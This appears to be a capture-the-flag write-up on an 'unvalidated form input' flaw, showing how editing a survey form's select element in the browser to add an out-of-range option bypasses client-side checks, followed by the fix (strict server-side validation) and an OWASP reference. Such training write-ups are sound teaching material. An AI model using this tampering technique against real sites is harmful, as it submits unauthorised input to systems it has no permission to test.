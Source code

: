 # Unvalidated form input

## Vulnerability
* Go to `survey` category
* Inspect one of the form and add another optional value like this
```
<form action="#" method="post">
    <input type="hidden" name="sujet" value="3">
    <select name="valeur" onchange="javascript:this.form.submit();">
        <option value="1">1</option>
        <option value="2">2</option>
        <option value="3">3</option>
        <option value="4">4</option>
        <option value="5">5</option>
        <option value="6">6</option>
        <option value="7">7</option>
        <option value="8">8</option>
        <option value="9">9</option>
        <option value="10">10</option> 
        <option value="11">11</option> // added option
    </select>
</form>
```
* Select the previously inserted value in the form in order to get the flag

## Attack
An attacker can bypass client side validation and send out of scope inputs to
 the server

## Fix
Server side strict validation is primordial. Never trust the client.

## Reference
https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html
